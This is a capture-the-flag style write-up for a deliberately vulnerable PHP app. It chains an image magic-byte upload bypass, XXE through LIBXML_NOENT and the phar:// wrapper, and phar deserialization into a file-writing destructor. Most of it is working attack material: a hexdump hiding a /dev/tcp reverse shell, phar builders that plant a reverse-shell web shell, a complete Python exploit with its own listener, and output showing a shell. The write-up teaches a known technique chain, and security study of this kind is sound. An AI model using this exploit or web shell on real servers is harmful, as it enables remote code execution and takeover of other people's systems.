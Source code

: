 ## Goal: 
- To get an RCE

## Analysis:
### Info: 
- Language: php 
- Env: php7.4 docker container with apache webserver
- dir structure at web root: 
```shell
$ tree .
.
├── chicken.php
├── index.php
├── styles.css
├── upload.php
├── uploads
│   └── something.gif
└── view.php

1 directory, 6 files
```

### Hint: 
As seen above there is a `something.gif` inside the upload folder which I put in as a hint. i.e: 
```shell
$ xxd uploads/something.gif
00000000: 4749 4638 3961 3b3c 3f70 6870 205f 5f48  GIF89a;<?php __H
00000010: 414c 545f 434f 4d50 494c 4552 2829 3b20  ALT_COMPILER();
00000020: 3f3e 0d0a bd00 0000 0100 0000 1100 0000  ?>..............
00000030: 0100 0000 0000 8700 0000 4f3a 373a 2263  ..........O:7:"c
00000040: 6869 636b 656e 223a 323a 7b73 3a37 3a22  hicken":2:{s:7:"
00000050: 636f 6e74 656e 7422 3b73 3a37 323a 223c  content";s:72:"<
00000060: 3f70 6870 0a65 7865 6328 222f 6269 6e2f  ?php.exec("/bin/
00000070: 6261 7368 202d 6320 2762 6173 6820 2d69  bash -c 'bash -i
00000080: 203e 2620 2f64 6576 2f74 6370 2f31 3732   >& /dev/tcp/172
00000090: 2e31 372e 302e 312f 3331 3333 3720 303e  .17.0.1/31337 0>
000000a0: 2631 2722 5c29 3b22 3b73 3a34 3a22 6e61  &1'"\);";s:4:"na
000000b0: 6d65 223b 733a 353a 2264 2e70 6870 223b  me";s:5:"d.php";
000000c0: 7d08 0000 0052 6963 6b2e 7478 7417 0000  }....Rick.txt...
000000d0: 009e 0941 6017 0000 00b7 433c 0ea4 0100  ...A`.....C<....
000000e0: 0000 0000 004e 6576 6572 2067 6f6e 6e61  .....Never gonna
000000f0: 2067 6976 6520 796f 7520 7570 da58 acc4   give you up.X..
00000100: 6866 754a 0529 e397 506d 27f0 a509 9651  hfuJ.)..Pm'....Q
00000110: 0200 0000 4742 4d42                      ....GBMB
```

### Vulnerability I: bagic mytes
$WEB_ROOT/upload.php
```php
  8 // Check if image file is a actual image or fake image
  9 if(isset($_POST["submit"])) {
 10   $check = getimagesize($_FILES["fileToUpload"]["tmp_name"]); 
 11   if($check !== false) {
 12     echo "File is an image - " . $check["mime"] . ".";
 13     $uploadOk = 1;
 14   } else {
 15     echo "File is not an image.";
 16     $uploadOk = 0;
 17   }
 18 }
 ```
 The check on the line 10 can be fooled with magic bytes. for example a php file with `GIF89a` magic bytes can bypass that check 
 
 ### Vulnerablity II: 
 $WEB_ROOT/view.php
 ```php
 15 if (isset($_GET['xmldoc'])){
 16         $content = urldecode($_GET['xmldoc']);
 17         if (preg_match('/(php|zlib|file|http|data|glob|expect):\/\//', $content)){ // [1]
 18                 echo "Naughty boy";
 19                 header("Location: ");
 20                 die();
 21                 }
 22                 else
 23                 {
 24                         $doc = simplexml_load_string($content, NULL,
 25                                 LIBXML_NOENT); // [2]
 26                         echo "If there are no errors on this then XML is parsed";
 27                 }
 28         }
 29 else {
 30                 echo "cant exploit without userinput lol, and its 'xmldoc' parameter ;) have fun";
 31 }
 32 ?>
 ```
 
 As implemented in [1] Regex isnt the best solution in this case and can easily be bypassed by a malicious actor also `phar` stream wrapper isnt blacklisted either. [2] introduces XXE as LIBXML_NOENT actually resolves the entity than disabling(developer confusion is real even in present days), then we leverage the XXE to invoke the phar polyglot we upload using `vulnerability I`
 
 ### Vulnerability II and a feature(bug? :P)
 $WEB_ROOT/chicken.php:
 ```php
  1 <?php
  2
  3 class Chicken{
  4     public function __destruct(){
  5         echo "things happened";
  6         file_put_contents($this->name, $this->content, FILE_APPEND);
  7     }
  8 }
  9
 10 ?>
 ```
Sweet line 6 just lets us write files ;p 
lets make a phar out of this: 
```php
<?php

class chicken{
        public function __construct(){
                //vars
                $this->content = "<?php phpinfo() ?>";
                $this->name = "d.php";
        }
}

//create a new phar archieve
$phar = new \Phar("poc.phar");
$phar->startBuffering();
$phar->setStub("GIF89a;<?php __HALT_COMPILER(); ?>");

//serialize
$payload = new chicken();
$phar-> setMetadata($payload);

//zip archieve inside phar file :kekw:
$phar->addFromString("Rick.txt", "Never gonna give you up");
$phar->stopBuffering();
?>
```
This bypasses the filetype check and when we invoke the phar archieve via the XXE on `Vulberability II` `d.php` is written to the webroot and then we can access it to see `phpinfo()` output proving code execution. 

so if we were to generate a phar file with: 
```php
<?php

class chicken{
        public function __construct(){
                //vars
                $this->content = '<?php $ip=$_GET[\'ip\'];$p=$_GET[\'p\'];$string="/bin/bash -c \'sh -i >& /dev/tcp/".$ip."/".$p." 0>&1\'";exec($string); ?>';
                $this->name = "nail.php";
        }
}

//create a new phar archieve
$phar = new \Phar("poc.phar");
$phar->startBuffering();
$phar->setStub("GIF89a;<?php __HALT_COMPILER(); ?>");

//serialize
$payload = new chicken();
$phar-> setMetadata($payload);

//zip archieve inside phar file :kekw:
$phar->addFromString("Rick.txt", "Never gonna give you up");
$phar->stopBuffering();
?>
```

and then use an exploit like: 
```python
import requests, sys, socket, telnetlib
from threading import Thread

def upload():
    files = {'fileToUpload' : open(f'{sys.argv[1]}', 'rb')}
    r = requests.post('http://localhost:9001/upload.php', files=files)
    if "successfully" in r.text:
        print("[-] Phar has been planted")

def exp():
    payload = f'''<?xml version="1.0" ?><!DOCTYPE root [<!ENTITY test SYSTEM "phar://./uploads/{sys.argv[1]}">]><lol>&test;</lol>'''
    r = requests.get("http://localhost:9001/view.php",{'xmldoc' : payload})
    if "things happened" in r.text:
        print("[-] Phar deserialized via XXE")

def handler(port):
    print(f"[-] Starting handler on {port}")
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',port))
    s.listen(1)
    conn, addr = s.accept()
    print(f"[-] Connection from {addr[0]}")
    t.sock = conn
    print("[-] Shell'd")
    t.interact()

def invoke(attacker,port):
    requests.get("http://localhost:9001/nail.php",{'ip' : attacker, 'p' : port})

def main():
    if len(sys.argv) != 3:
        print(f"{sys.argv[0]} <phar polyglot> <attackerip:port>")
        sys.exit(-1)
    attacker = sys.argv[2].split(':')[0]
    port = sys.argv[2].split(':')[1]
    thr = Thread(target=handler,args=(int(port),))
    thr.start()
    upload()
    exp()
    invoke(attacker,port)

if __name__ == "__main__":
    main()

```

we get: 
```shell
$ python3 exploit.py pocsh.gif 127.0.0.1:31337
[-] Starting handler on 31337
[-] Phar deserialized via XXE
[-] Connection from 127.0.0.1
[-] Shell'd
$ id
uid=1000(user) gid=1000(user) groups=1000(user),27(sudo)
$
```


## References: 
- https://srcincite.io/assets/out-of-hand-attacks-against-php-environments.pdf
- https://files.ripstech.com/slides/PHP.RUHR_2018_New_PHP_Exploitation_Techniques.pdf
